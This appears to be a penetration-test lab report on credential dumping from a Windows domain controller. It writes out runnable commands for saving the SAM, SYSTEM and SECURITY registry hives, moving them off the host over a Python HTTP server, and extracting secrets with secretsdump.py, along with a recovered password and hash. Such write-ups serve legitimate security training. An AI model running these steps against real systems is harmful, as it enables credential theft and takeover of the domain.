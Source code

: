 ```
=========================
Phase 4: Privilege Escalation
=========================

MITRE ATT&CK Techniques:
- T1003.001 – OS Credential Dumping: LSASS Memory
- T1003.004 – OS Credential Dumping: LSA Secrets
- T1003.005 – OS Credential Dumping: Cached Domain Credentials

Objective:
----------
Elevate privileges from a low-privileged user (`bob`) to Domain Admin or equivalent by extracting credentials or secrets from the system.

Lab Setup:
----------
- Attacker Machine: Kali Linux
- Target Machine: Windows Server 2019 (Domain Controller)
- User Compromised: bob@corp.local
- Privileges Escalated: Domain Admin

Steps and Observations:
------------------------

1. **Verified Privilege Rights of the Compromised User**
   Command:
```

whoami /priv

```
Result:
```

User had several high-level privileges enabled:

* SeDebugPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeTakeOwnershipPrivilege
* SeImpersonatePrivilege

```

2. **Confirmed Domain Admin Group Membership**
Command:
```

net user bob /domain

```
Result:
```

Global Group memberships:
\*Domain Users
\*Domain Admins

```

3. **Exported the Windows Registry Hives from Target**
Commands run on the compromised machine:
```

reg save hklm\sam C:\Users\Public\sam.save
reg save hklm\system C:\Users\Public\system.save
reg save hklm\security C:\Users\Public\security.save

```

4. **Transferred Registry Files to Attacker Machine**
Method used:
- Hosted an HTTP server using `python3 -m http.server 8000`
- Downloaded files via the browser or authenticated SMB share

5. **Dumped Credentials using secretsdump.py**
Command:
```

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

```

Output Highlights:
- Extracted plaintext password: `mr404`
- Found cached hash: `aad3b435b51404eeaad3b435b51404ee:e16f9ff726e5145d3b7a379c5363d098`
- Dumped DPAPI system keys
- Retrieved sensitive machine account secrets and LSA secrets

Note:
- SAM hash extraction failed due to minor corruption (`regf` magic mismatch), but LSA and cached credentials were still recovered.

Evidence:
---------
- Screenshots were taken for each command and output.
- `secretsdump` full output was saved in a `.txt` file.
- Registry hive files were successfully exfiltrated and analyzed.
- Provided the "loot" folder with hive files

Conclusion:
-----------
Phase 4 was successfully completed. The user `bob` had Domain Admin privileges, confirmed via enumeration. We exploited this by dumping LSA secrets and cached credentials from the DC registry hives. This allows us to maintain persistence and move laterally within the domain. The attack chain is now ready to proceed to **Phase 5: Credential Access and Lateral Movement**.
```
